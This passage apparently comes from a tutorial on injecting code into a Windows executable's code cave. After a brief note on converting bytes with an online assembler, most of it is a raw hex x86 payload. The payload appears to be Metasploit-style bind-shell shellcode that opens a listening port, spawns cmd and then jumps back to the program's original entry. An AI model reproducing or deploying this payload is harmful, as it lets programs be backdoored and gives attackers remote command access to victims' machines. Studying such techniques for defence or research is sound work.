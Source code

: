 ![](/assets/img/Code_Cave_II/24.png)

This will copy the instructions to our clipboard in a hex format, similar to msfvenom when providing a payload. However, this is not the one that we need, reason why I used 
[defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2), that will turn the hex format into the escape sequences as desired for you, just paste them on the 
"Disassemble" section and process them. You can also perform this task manually, but it may take you a very long time.

Raw payload:

```term
60 9C FC E8 82 00 00 00 60 89 E5 31 C0 64 8B 50 30 8B 52 0C 8B 52 14 8B 72 28 0F B7 4A 26 31 FF
AC 3C 61 7C 02 2C 20 C1 CF 0D 01 C7 E2 F2 52 57 8B 52 10 8B 4A 3C 8B 4C 11 78 E3 48 01 D1 51 8B
59 20 01 D3 8B 49 18 E3 3A 49 8B 34 8B 01 D6 31 FF AC C1 CF 0D 01 C7 38 E0 75 F6 03 7D F8 3B 7D
24 75 E4 58 8B 58 24 01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0 89 44 24 24 5B 5B 61 59 5A
51 FF E0 5F 5F 5A 8B 12 EB 8D 5D 68 33 32 00 00 68 77 73 32 5F 54 68 4C 77 26 07 FF D5 B8 90 01
00 00 29 C4 54 50 68 29 80 6B 00 FF D5 6A 08 59 50 E2 FD 40 50 40 50 68 EA 0F DF E0 FF D5 97 68
02 00 23 28 89 E6 6A 10 56 57 68 C2 DB 37 67 FF D5 57 68 B7 E9 38 FF FF D5 57 68 74 EC 3B E1 FF
D5 57 97 68 75 6E 4D 61 FF D5 68 63 6D 64 00 89 E3 57 57 57 31 F6 6A 12 59 56 E2 FD 66 C7 44 24
3C 01 01 8D 44 24 10 C6 00 44 54 50 56 56 56 46 56 4E 56 56 53 56 68 79 CC 3F 86 FF D5 89 E0 90
56 46 FF 30 68 08 87 1D 60 FF D5 BB F0 B5 A2 56 68 A6 95 BD 9D FF D5 3C 06 7C 0A 80 FB E0 75 05
BB 47 13 72 6F 6A 00 53 81 C4 00 02 00 00 9D 61 68 B8 7F 49 00 E9 BA F0 F5 FF
```

